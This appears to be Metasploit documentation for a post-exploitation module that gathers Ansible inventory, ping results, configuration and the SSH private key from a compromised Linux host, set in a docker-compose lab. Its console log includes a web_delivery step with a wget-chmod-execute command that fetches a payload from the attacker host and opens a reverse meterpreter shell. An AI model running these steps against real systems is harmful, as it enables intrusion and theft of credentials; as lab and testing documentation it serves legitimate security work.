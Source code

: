 ## Vulnerable Application

This module will grab ansible information including hosts, ping status, and the configuration file.

### Docker-compose Install

Use the ansible lab files located [here](https://github.com/abdennour/ansible-lab-environment-in-containers).

Before bringing up the `docker-compose` instance, you'll want to generate an SSH key: `ssh-keygen -t rsa -N "" -f secrets/id_rsa`

Of note, only 1 of the 3 alpine hosts will be successful due to the port conflict. This is fine though.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Get an initial shell on the box
1. Do: `use post/linux/gather/ansible`
1. Do: `set session [#]`
1. Do: `run`
1. You should get information about the ansible install and host.

## Options

### ANSIBLE

Location of ansible executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible`. Defaults to ``

### ANSIBLEINVENTORY

Location of ansible-inventory executable if not in a standard location. This is added to a list of default locations
which includes `/usr/local/bin/ansible-inventory`. Defaults to ``

### ANSIBLECFG

Location of ansible-inventory executable if not in a standard location. This is added to a list of default locations
which includes `/etc/ansible/ansible.cfg`. Defaults to ``

### HOSTS

Which Ansible host (groups) to target. Defaults to `all`

## Scenarios

### Docker compose as mentioned above

Get initial access to the system

```
resource (ansible.rb)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (ansible.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ansible.rb)> set srvport 8181
srvport => 8181
resource (ansible.rb)> set target 7
target => 7
resource (ansible.rb)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (ansible.rb)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[*] Using URL: http://1.1.1.1:8181/qsmOaSn61Y
[*] Server started.
[*] Run the following command on the target machine:
wget -qO D418BdOM --no-check-certificate http://1.1.1.1:8181/qsmOaSn61Y; chmod +x D418BdOM; ./D418BdOM& disown
[*] Starting persistent handler(s)...
[*] Sending stage (3045380 bytes) to 172.28.0.3
[*] Meterpreter session 1 opened (1.1.1.1:4444 -> 172.28.0.3:52506) at 2023-12-13 12:32:03 -0500
```


```
resource (ansible.rb)> use post/linux/gather/ansible
resource (ansible.rb)> set ANSIBLECFG /playbook/ansible.cfg
ANSIBLECFG => /playbook/ansible.cfg
resource (ansible.rb)> set session 1
session => 1
resource (ansible.rb)> set verbose true
verbose => true
[msf](Jobs:1 Agents:2) post(linux/gather/ansible) > run

[+] Stored inventory to: /root/.msf4/loot/20231213123519_default_172.28.0.3_ansible.inventor_801476.json
[+] Ansible Hosts
=============

 Host                       Connection
 ----                       ----------
 alpine-example-com         ssh
 alpinesystemd-example-com  docker
 centos7-example-com        docker
 rhel8-example-com          docker

[+] Stored pings to: /root/.msf4/loot/20231213123529_default_172.28.0.3_ansible.ping_007951.txt
[+] Ansible Pings
=============

 Host                       Status   Ping  Changed
 ----                       ------   ----  -------
 alpine-example-com         SUCCESS  pong  false
 alpinesystemd-example-com  SUCCESS  pong  false
 centos7-example-com        SUCCESS  pong  false
 rhel8-example-com          SUCCESS  pong  false

[+] Stored config to: /root/.msf4/loot/20231213123530_default_172.28.0.3_ansible.cfg_563982.txt
[+] Private key file location: /secrets/id_rsa
[+] Stored private key file to: /root/.msf4/loot/20231213123530_default_172.28.0.3_ansible.private._084820.txt
[*] Post module execution completed
```
